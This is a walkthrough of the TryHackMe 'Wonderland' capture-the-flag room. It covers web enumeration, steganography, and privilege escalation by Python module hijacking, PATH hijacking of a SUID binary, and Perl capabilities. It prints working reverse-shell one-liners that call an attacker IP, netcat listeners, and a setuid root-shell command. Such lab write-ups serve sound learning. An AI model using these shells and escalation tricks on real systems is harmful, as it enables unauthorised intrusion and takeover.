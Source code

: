 ```yaml
---
title: CTF tryhackme wonderland
categories: [CTF, THM]
tags: [http, ssh, steganography, linux_privesc, reverse_engineering]
date: 2024-03-06 08:00 +0700
---
```


In this room, we'll see to avoid rabbit holes

[https://tryhackme.com/r/room/wonderland](https://tryhackme.com/r/room/wonderland)

## nmap
- after nmap scan, port 22 and 80 are open

## feroxbuster
- `feroxbuster -u http://$IPTA:80 -t 30 -w /usr/share/dirb/wordlists/common.txt -x txt,html,sql,csv,png,jpg,jpeg,php,js,md,sh,py,css,cgi,xml,aspx,zip,tar,tar.gz,bak dir -o "ferox_$IPTA"_common_all.txt` 
![](/assets/img/img_thm_ctf_wonderland_7.png)

## manual web enumeration / steganography
![](/assets/img/img_thm_ctf_wonderland_6.png)
- `wget http://10.10.104.129/img/white_rabbit_1.jpg; ./stegoBF.sh white_rabbit_1.jpg`
	- or `stegseek white_rabbit_1.jpg -q -c`
- `cat *.out*`
- we can extract several strings in them, all saying "follow the r a b b i t"
![](/assets/img/img_thm_ctf_wonderland_5.png)
- feroxbuster got /r, with the message keep going on the page
![](/assets/img/img_thm_ctf_wonderland_8.png)
- given the message in the image and on the web page, we need to continue the letters until r/a/b/b/i/t 
- and indeed in the source code of the page, we get the SSH credentials of alice 
![](/assets/img/img_thm_ctf_wonderland_9.png)
- `ssh alice@$IPTA`

# linux privesc
## python script with import -> rabbit
- `sudo -l; head /home/alice/walrus_and_the_carpenter.py` we can execute a python script as rabbit, and this script import the 'random' module. We can create our own module file, which will be loaded in priority
![](/assets/img/img_thm_ctf_wonderland_10.png)
- `echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.64.57",56766));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > random.py` let's write a reverse shell code in the random.py file
- US2: `nc -lvnp 56766`
- `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
![](/assets/img/img_thm_ctf_wonderland_11.png)
- we have a rabbit shell, let's stabilize it with python

## reverse engineering -> hatter
- `file teaParty` we have a binary file, let's download it to analyse it
- TA:`python3 -m http.server`
- US:`wget $IPTA:8000/teaParty`
- `ltrace ./teaParty` the script will allow us to get a hatter shell
![](/assets/img/img_thm_ctf_wonderland_2.png)
- first I thought of a buffer overflow, but reverse engineering it with ghidra, we can see that the Segmentation fault message is hardcoded. What we see here is that date binary is called with a relative path! And since it's a SUID script, we can modify our path to execute our own date binary, as hatter user
![](/assets/img/img_thm_ctf_wonderland_3.png)
- `echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.11.64.57/56767 0>&1"' > date; chmod +x date` this one!
- US3:`nc -lvnp 56767`
- `PATH=.:$PATH ./teaParty`
![](/assets/img/img_thm_ctf_wonderland_12.png)
- notice how the script is stopped when the date binary start our reverse shell

## perl with extra capabilities -> root
- stabilize the shell with bash this time
- `cat /home/hatter/password.txt`
- `su hatter` we needed this password, otherwise we're not fully logged as hatter since we used a SUID script
- `getcap -r / 2>/dev/null` search for files that have capabilities (or use linpeas)
- `perl -v` https://gtfobins.github.io/gtfobins/perl/#capabilities we can execute perl, it has extra capabilities set, we can use it to get a root shell
- `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash";'` 
- `/tmp/rootbash -p`
- `find / \( -name "user.txt" -o -name "root.txt" \) 2>/dev/null | while read -r flagfile; do echo -e "\n$flagfile"; cat $flagfile; done`
![](/assets/img/img_thm_ctf_wonderland_13.png)